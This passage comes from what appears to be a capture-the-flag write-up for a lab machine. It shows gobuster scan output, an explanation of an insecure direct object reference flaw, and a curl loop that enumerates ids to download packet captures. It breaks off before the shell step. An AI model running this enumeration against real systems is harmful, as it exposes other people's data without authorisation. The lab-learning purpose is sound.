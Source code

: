 ![Cap Network Status](./images/dashboard-network-status.png)

The result of the `gobuster` scan doesn't reveal anything new or hidden. All paths uncovered via the scan we already found doing manual recon:

```sh
$ cat gobuster.txt

/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17366]
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/4]
```

## Getting a shell as user

As far as the enumeration goes, we didn't discover all that much. We got a couple of pages that mostly return some static information. But the `/capture` page is a rather interesting one. Reloading the page a few times it starts redirecting to different pages over time. Initially, it redirected to `/data/3`, but after a few more gobuster scans and that id started going. All gobuster information start from id 3, this makes me wonder what pcap files are available before id 3. This is what they call an IDOR insecure direct object reference. It is a vulnerability that allows an attacker to manipulate a URL or a parameter to a request to access objects they aren't supposed to access.

With `curl` it's possible to quickly download all available pcap files:

```sh
$ seq 0  10 | xargs -I% bash -c "curl -L http://10.10.10.245/download/% -s -o %.pcap; echo 'Downloaded %.pcap'"

Downloaded 0.pcap
Downloaded 1.pcap
Downloaded 2.pcap
Downloaded 3.pcap
Downloaded 4.pcap
Downloaded 5.pcap
Downloaded 6.pcap
Downloaded 7.pcap
Downloaded 8.pcap
Downloaded 9.pcap
Downloaded 10.pcap
```
